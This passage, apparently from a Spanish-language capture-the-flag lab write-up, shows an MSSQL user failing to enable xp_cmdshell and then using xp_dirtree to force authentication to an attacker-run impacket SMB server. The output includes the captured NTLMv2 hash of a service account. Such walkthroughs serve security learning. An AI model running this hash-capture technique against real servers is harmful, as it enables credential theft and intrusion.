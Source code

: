 - No podemos usar `xp_cmdshell` para ejecutar comandos y tampoco podemos activarlo por que no tenemos permisos.

```bash
SQL (QUERIER\reporting  reporting@volume)> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL (QUERIER\reporting  reporting@volume)> enable xp_cmdshell
[-] ERROR(QUERIER): Line 1: Incorrect syntax near 'xp_cmdshell'.
SQL (QUERIER\reporting  reporting@volume)> enable_xp_cmdshell
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
```

- Lo que podemos hacer es roba el hash `NTLMv2` en el proceso de la autenticación abusando del `xp_dirtree` ya que nos permite listar recursos compartidos a nivel de red de algún servidor y nosotros desde nuestra maquina de atacante con `smbserver` vamos a crear un recurso a nivel de red para que se autentique y capturar el hash.

```bash
➜  Downloads impacket-smbserver b $(pwd) -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

- Ahora si usamos `xp_dirtree` para listar los recursos compartidos por detrás viaja la autenticación y capturaremos el hash.

```bash
SQL (QUERIER\reporting  reporting@volume)> xp_dirtree \\10.10.15.11\smbserver
subdirectory   depth   file
------------   -----   ----
SQL (QUERIER\reporting  reporting@volume)>
```

- Capturamos el hash.

```bash
➜  Downloads impacket-smbserver b $(pwd) -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.67.247,49675)
[*] AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
[*] User QUERIER\mssql-svc authenticated successfully
[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:254a4df4a95e2690a16c8afd14b68f0a:01010000000000008088a8e09187da0102326448f746e93a00000000010010004d007500590056006700510047004600030010004d00750059005600670051004700460002001000530075006f0053006b006d007900540004001000530075006f0053006b006d0079005400070008008088a8e09187da0106000400020000000800300030000000000000000000000000300000b8458b27b9ac92b92824508e47e300b1dd167c58ec5b12b4846757d2eb899f100a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310035002e0031003100000000000000000000000000
[*] Connecting Share(1:IPC$)
[-] SMB2_TREE_CONNECT not found smbserver
[-] SMB2_TREE_CONNECT not found smbserver
```